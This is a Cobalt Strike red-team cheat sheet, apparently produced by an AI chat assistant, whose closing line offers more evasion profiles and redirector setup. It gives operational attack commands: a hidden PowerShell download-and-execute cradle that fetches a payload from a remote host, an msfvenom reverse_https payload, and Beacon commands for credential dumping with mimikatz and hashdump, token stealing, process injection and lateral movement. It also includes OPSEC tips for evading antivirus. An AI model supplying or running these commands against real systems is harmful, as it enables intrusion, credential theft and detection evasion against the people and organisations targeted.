 # Cobalt Strike Cheat Sheet (Red Team Edition)

## ☣️ Overview

Cobalt Strike is a commercial post-exploitation toolkit used in Red Team operations. It features an advanced **Beacon payload**, **team server**, **scripting via Aggressor Script**, and built-in support for **pivoting**, **lateral movement**, and **OPSEC-safe C2**.

---

## ⚙️ Starting the Team Server

```bash
./teamserver <IP> <password>
```

Example:
```bash
./teamserver 192.168.1.100 SecretPass123
```

---

## 💉 Payload Generation

### HTTP/S Beacon

```
Attacks → Packages → Windows Executable (S)
```

### Raw Binary / PowerShell Launcher

```
Attacks → Packages → Windows PowerShell
```

Example:
```
powershell -nop -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('http://x.x.x.x/a')"
```

---

## 📡 Listener Setup

```
Cobalt Strike → C2 Listener Manager → Add Listener
```

Common types:
- HTTP
- HTTPS
- DNS
- SMB
- External redirectors (Nginx, Apache mod_rewrite)

---

## 🔗 Initial Access & Dropper Examples

### Weaponized LNK or Office Macro

Use:
- `SharpShooter`
- `MacroPack`
- `Donut` for .NET payload generation

### Cobalt Strike + Metasploit

```
msfvenom -p windows/meterpreter/reverse_https LHOST=x.x.x.x LPORT=443 -f exe
```

Upload and run to stage into Beacon.

---

## 💻 Beacon Commands (Post-Exploitation)

### Session Info

```
beacon> getuid
beacon> ipconfig
beacon> netstat
beacon> shell whoami
```

### Pivoting

```
beacon> jump smb <target> <listener>
beacon> link <beacon_id>
```

### Credential Dumping

```
beacon> mimikatz
beacon> hashdump
beacon> wdigest
```

### Lateral Movement

```
beacon> jump psexec <target>
beacon> jump winrm <target>
```

### File Operations

```
beacon> ls
beacon> cd
beacon> download <file>
beacon> upload <file>
```

### Execute Commands

```
beacon> shell <cmd>
beacon> powershell <cmd>
```

---

## 🎯 Lateral Movement Techniques

- **Psexec**
- **WMI**
- **WinRM**
- **Token stealing**
- **Spawn to (x64/x86)** to match process arch
- **Named pipe pivoting**

---

## 🧬 Aggressor Script Usage

Aggressor Script lets you automate Cobalt Strike tasks.

Example:

```javascript
on beacon_initial {
  println("New beacon: $1");
  beacon_command($1, "getuid");
}
```

Load via:
```
Cobalt Strike → Script Manager
```

---

## 🔐 OPSEC Tips

- Avoid default settings — customize watermark, PE metadata, process injection settings
- Use **sleep/jitter** to avoid noisy callbacks
```
beacon> sleep 60000 20
```
- Avoid `mimikatz` directly; use `sekurlsa::logonpasswords` via shell or run tools from memory
- Prefer **in-memory** execution (`execute-assembly`, `shinject`, `psinject`)
- Use **spawn-to** to avoid AV (run in known-safe processes)
- Use **HTTPS with redirectors**, not direct IPs

---

## 🧰 Useful Commands Summary

```
getuid                         → Show user context  
ps                             → Show processes  
inject <pid> <listener>        → Inject beacon  
shell <command>                → Run command via cmd.exe  
powershell <command>           → Run PowerShell in memory  
mimikatz                       → Credential dumping  
rev2self                       → Drop tokens  
steal_token <pid>              → Use token from process  
jump smb/wmi/psexec/winrm      → Move laterally  
spawnas user pass              → Run as another user  
```

---

## 📌 Integration Notes

- Pair with BloodHound for attack pathing
- Use Covenant or Sliver for diversion or multi-C2
- Cobalt Strike + redirectors = safer infrastructure

---

Let me know if you want this paired with **redirector setup**, **Evasion Profiles**, or **Aggressor Script snippets for automated workflows**.


